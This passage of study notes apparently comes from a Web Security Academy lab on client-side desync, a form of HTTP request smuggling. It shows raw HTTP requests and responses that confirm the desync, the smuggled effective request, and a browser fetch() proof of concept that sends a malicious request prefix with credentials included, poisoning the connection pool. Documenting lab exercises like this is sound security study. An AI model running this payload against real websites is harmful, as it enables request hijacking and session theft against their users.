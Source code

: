 ```http

---

HTTP/1.1 302 Found
Location: /en
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=10
Content-Length: 0
```

*Follow-up request (404 instead of 302, meaning that we have performed the desync and retrieved the response to `/hopefully404` )*
```http
GET / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
Cookie: session=7hU4rhvzi2hOj62r5Q4AewufEbjiCC0f; _lab_analytics=n41lqMeF9Sxi8sjLkaw3X6HP2Zbt5vhkPSFJPIwyGuxHPy33HHQEK9p4FBIJKOPVB72rFbnMyqrldP3xlepovUgOMLNfZI8JVazYoYri6eaFEBm8TWLQieOMihQ1vVee51Y629efffjnIkXiraplZCJlIXidBk25eM1AYQtMymFZeHe6f8g6nveXTprtUpNXqKIXkUwaBnC8lL3jdQPX14XfMbSHs12iSgicyvf2nFdv1C0dvainVKq6LoVbcimq
Connection: keep-alive

---

HTTP/1.1 404 Not Found
```

The effective request is that has been received is: 
```http
GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
```

### Building a PoC in a browser

>[!warning]- Browser requirements
>- Use a browser that is **not** proxying traffic through Burp Suite
>- Disable any browser extensions

>[!tip]
>Inside the `Developer tools > Network tab`: Right-click on the headers and enable the **Connection ID** column.
>This ensures that each request that the browser sends is logged on the **Network** tab, along with details of which connection it used. This can help with troubleshooting any issues

Fetch request to replicate the desync probe
```js
fetch('https://vulnerable-website.com/vulnerable-endpoint', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x', // malicious prefix
    mode: 'no-cors', // ensures the connection ID is visible on the Network tab
    credentials: 'include' // poisons the "with-cookies" connection pool
}).then(() => {
    location = 'https://vulnerable-website.com/' // uses the poisoned connection
})
```
